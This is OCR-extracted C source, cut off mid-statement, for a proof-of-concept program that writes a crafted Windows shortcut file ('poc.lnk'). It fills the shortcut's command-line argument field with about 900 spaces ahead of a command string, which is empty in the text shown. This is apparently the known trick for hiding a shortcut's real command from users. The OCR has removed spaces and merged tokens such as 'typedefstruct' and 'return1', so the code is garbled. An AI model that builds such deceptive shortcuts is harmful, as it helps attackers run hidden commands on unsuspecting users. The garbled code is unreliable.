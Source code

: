 ```
#include <windows.h>#include <stdio.h>#pragma pack(1)#pragma warning(disable:4996)typedefstruct _ShellLinkHeader {    DWORD       HeaderSize;          GUID        LinkCLSID;           DWORD       LinkFlags;           DWORD       FileAttributes;      FILETIME    CreationTime;        FILETIME    AccessTime;          FILETIME    WriteTime;           DWORD       FileSize;            DWORD       IconIndex;           DWORD       ShowCommand;         WORD        HotKey;              WORD        Reserved1;           DWORD       Reserved2;           DWORD       Reserved3;       } SHELL_LINK_HEADER, * PSHELL_LINK_HEADER;#define HAS_LINK_TARGET_IDLIST         0x00000001#define HAS_LINK_INFO                  0x00000002#define HAS_NAME                       0x00000004#define HAS_RELATIVE_PATH              0x00000008#define HAS_WORKING_DIR                0x00000010#define HAS_ARGUMENTS                  0x00000020#define HAS_ICON_LOCATION              0x00000040#define IS_UNICODE                     0x00000080#define FORCE_NO_LINKINFO              0x00000100#define HAS_EXP_STRING                 0x00000200#define RUN_IN_SEPARATE_PROCESS        0x00000400#define HAS_LOGO3ID                    0x00000800#define HAS_DARWIN_ID                  0x00001000#define RUN_AS_USER                    0x00002000#define HAS_EXP_ICON                   0x00004000#define NO_PIDL_ALIAS                  0x00008000#define FORCE_USHORTCUT                0x00010000#define RUN_WITH_SHIMLAYER             0x00020000#define FORCE_NO_LINKTRACK             0x00040000#define ENABLE_TARGET_METADATA         0x00080000#define DISABLE_LINK_PATH_TRACKING     0x00100000#define DISABLE_KNOWNFOLDER_TRACKING   0x00200000#define DISABLE_KNOWNFOLDER_ALIAS      0x00400000#define ALLOW_LINK_TO_LINK             0x00800000#define UNALIAS_ON_SAVE                0x01000000#define PREFER_ENVIRONMENT_PATH        0x02000000#define KEEP_LOCAL_IDLIST_FOR_UNC      0x04000000#pragma pack()#define SW_SHOWNORMAL       0x00000001#define SW_SHOWMAXIMIZED    0x00000003#define SW_SHOWMINNOACTIVE  0x00000007#define ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE   0xA0000001#define CONSOLE_DATABLOCK_SIGNATURE                   0xA0000002#define TRACKER_DATABLOCK_SIGNATURE                   0xA0000003#define CONSOLE_PROPS_DATABLOCK_SIGNATURE             0xA0000004#define SPECIAL_FOLDER_DATABLOCK_SIGNATURE            0xA0000005#define DARWIN_DATABLOCK_SIGNATURE                    0xA0000006#define ICON_ENVIRONMENT_DATABLOCK_SIGNATURE          0xA0000007#define SHIM_DATABLOCK_SIGNATURE                      0xA0000008#define PROPERTY_STORE_DATABLOCK_SIGNATURE            0xA0000009#define KNOWN_FOLDER_DATABLOCK_SIGNATURE              0xA000000B#define VISTA_AND_ABOVE_IDLIST_DATABLOCK_SIGNATURE    0xA000000C#define EMBEDDED_EXE_DATABLOCK_SIGNATURE              0xA000CAFEint main() {    constchar* lnkFilePath = "poc.lnk";    HANDLE hFile;    DWORD bytesWritten;    hFile = CreateFileA(lnkFilePath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,        FILE_ATTRIBUTE_NORMAL, NULL);    if (hFile == INVALID_HANDLE_VALUE) {        printf("Failed to create LNK file: %lu\n", GetLastError());        return1;    }    SHELL_LINK_HEADER header = { 0 };    header.HeaderSize = 0x0000004C;    header.LinkCLSID.Data1 = 0x00021401;    header.LinkCLSID.Data2 = 0x0000;    header.LinkCLSID.Data3 = 0x0000;    header.LinkCLSID.Data4[0] = 0xC0;    header.LinkCLSID.Data4[1] = 0x00;    header.LinkCLSID.Data4[2] = 0x00;    header.LinkCLSID.Data4[3] = 0x00;    header.LinkCLSID.Data4[4] = 0x00;    header.LinkCLSID.Data4[5] = 0x00;    header.LinkCLSID.Data4[6] = 0x00;    header.LinkCLSID.Data4[7] = 0x46;    header.LinkFlags = HAS_NAME |        HAS_ARGUMENTS |        HAS_ICON_LOCATION |        IS_UNICODE |        HAS_EXP_STRING;    header.FileAttributes = FILE_ATTRIBUTE_NORMAL;    SYSTEMTIME st;    GetSystemTime(&st);    SystemTimeToFileTime(&st, &header.CreationTime);    SystemTimeToFileTime(&st, &header.AccessTime);    SystemTimeToFileTime(&st, &header.WriteTime);    header.FileSize = 0;    header.IconIndex = 0;    header.ShowCommand = SW_SHOWNORMAL;    header.HotKey = 0;    header.Reserved1 = 0;    header.Reserved2 = 0;    header.Reserved3 = 0;    if (!WriteFile(hFile, &header, sizeof(SHELL_LINK_HEADER), &bytesWritten, NULL)) {        printf("Failed to write header: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    constchar* description = "testing purpose";    WORD descLen = (WORD)strlen(description);    if (!WriteFile(hFile, &descLen, sizeof(WORD), &bytesWritten, NULL)) {        printf("Failed to write description length: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    int wideBufSize = MultiByteToWideChar(CP_ACP, 0, description, -1, NULL, 0);    WCHAR* wideDesc = (WCHAR*)malloc(wideBufSize * sizeof(WCHAR));    if (!wideDesc) {        printf("Memory allocation failed\n");        CloseHandle(hFile);        return1;    }    MultiByteToWideChar(CP_ACP, 0, description, -1, wideDesc, wideBufSize);    if (!WriteFile(hFile, wideDesc, descLen * sizeof(WCHAR), &bytesWritten, NULL)) {        printf("Failed to write description: %lu\n", GetLastError());        free(wideDesc);        CloseHandle(hFile);        return1;    }    free(wideDesc);    constchar* calcCmd = "";    char cmdLineBuffer[1024] = { 0 };    int cmdLen = strlen(calcCmd);    int fillBytes = 900 - cmdLen;    memset(cmdLineBuffer, 0x20, fillBytes);    strcpy(cmdLineBuffer + fillBytes, calcCmd);    cmdLineBuffer[900] = '\0';    WORD cmdArgLen = (WORD)strlen(cmdLineBuffer);    if (!WriteFile(hFile, &cmdArgLen, sizeof(WORD), &bytesWritten, NULL)) {        printf("Failed to write cmd length: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    int wideCmdBufSize = MultiByteToWideChar(CP_ACP, 0, cmdLineBuffer, -1, NULL, 0);    WCHAR* wideCmd = (WCHAR*)malloc(wideCmdBufSize * sizeof(WCHAR));    if (!wideCmd) {        pri
```